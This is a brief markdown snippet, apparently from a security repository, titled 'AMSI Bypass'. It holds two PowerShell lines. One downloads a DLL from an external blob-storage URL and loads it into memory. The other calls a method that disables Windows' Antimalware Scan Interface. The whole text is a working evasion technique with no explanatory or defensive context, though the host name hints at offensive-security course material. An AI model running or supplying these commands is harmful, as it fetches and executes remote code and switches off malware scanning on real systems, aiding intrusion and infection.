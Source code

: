 # bypasses

## AMSI Bypass
`[Reflection.Assembly]::Load((iwr "https://oscepayloads.blob.core.windows.net/payloads/bypass.dll?sv=2018-03-28&si=payloads-1746B781EA7&sr=b&sig=3QejigdE1MsdUHcL86lcdNTyJFUICavlCz32Uy4lqhI%3D").content)`
`[Bypass.BP]::Disable()`
